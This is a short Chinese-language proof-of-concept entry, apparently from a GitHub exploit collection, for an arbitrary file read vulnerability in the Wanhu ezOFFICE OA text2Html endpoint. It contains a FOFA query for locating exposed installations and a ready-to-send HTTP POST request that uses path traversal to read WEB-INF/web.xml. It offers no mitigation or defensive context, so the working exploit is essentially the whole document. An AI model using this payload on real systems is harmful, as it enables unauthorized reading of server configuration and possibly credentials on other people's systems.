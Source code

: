 ## 万户OA text2Html接口存在任意文件读取漏洞

## fofa
```
app="万户网络-ezOFFICE"
```

## poc
```
POST /defaultroot/convertFile/text2Html.controller HTTP/1.1
Host:  
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Content-Length: 63
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
SL-CE-SUID: 1081

saveFileName=123456/../../../../WEB-INF/web.xml&moduleName=html
```

![e776895b9471c04a60d74a1666b56e1b](https://github.com/wy876/POC/assets/139549762/8217e88a-f2f5-47ba-9c27-eb765cbbed78)
